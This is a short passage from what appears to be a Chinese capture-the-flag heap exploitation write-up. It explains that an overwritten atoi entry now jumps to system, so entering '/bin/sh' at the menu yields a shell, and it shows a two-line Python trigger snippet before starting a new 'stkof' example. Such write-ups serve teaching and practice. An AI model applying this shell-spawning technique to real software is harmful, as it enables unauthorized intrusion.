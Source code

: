 再次调用atoi函数的时候，就会跳转到system。

![upload successful](/images/pasted-205.png)

ida中查看发现，每次最开始输入完菜单之后，都会运行一次atoi，所以再次直接输入参数/bin/sh即可getshell

```python
ru("Your choice: ")
sl('/bin/sh\x00')
```



例题3: stkof



程序运行时没有提示


![upload successful](/images/pasted-206.png)
